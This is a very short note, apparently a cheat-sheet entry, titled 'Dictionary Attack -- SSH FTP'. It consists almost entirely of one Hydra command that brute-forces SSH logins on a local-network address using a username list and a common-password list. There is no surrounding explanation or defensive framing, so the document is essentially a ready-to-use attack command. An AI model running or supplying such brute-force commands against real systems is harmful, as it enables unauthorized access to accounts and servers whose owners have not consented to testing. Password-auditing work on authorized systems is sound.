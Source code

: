 # Dictionary Attack -- SSH FTP




Using Hydra
hydra -L userlist.txt -P best1050.txt 192.168.1.103 -s 22 ssh -V

